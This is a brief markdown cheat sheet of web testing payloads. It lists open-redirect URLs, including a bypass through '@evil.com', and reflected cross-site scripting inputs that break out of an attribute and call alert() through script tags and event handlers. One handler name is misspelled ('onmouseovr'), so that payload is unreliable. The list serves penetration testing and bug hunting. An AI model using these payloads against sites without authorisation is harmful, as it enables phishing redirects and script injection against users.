 # Open redirect

- __`https://test.com/?redirect=https://www.google.com`__
- __`https://test.com/?redirect=https://www.google.com@evil.com`__


# Cross-Site Scripting (XSS)

- __`/?name="><u>test123`__
- __`/?name="><u>test123<script>alert(1)</script>`__
- __`/?name="><u>test123<image src=x onerror=alert()>`__
- __`/?name="><u>test123<image src=x onmouseover=alert()>`__
- __`/?name="><u>test123<image src=x onmouseovr=document.write(1)>`__
- > __If you are not getting /?name=test123 in url you can use burpsuite__
  - ![image1](https://github.com/Chittu13/All_in_one/blob/main/image/image1.png)
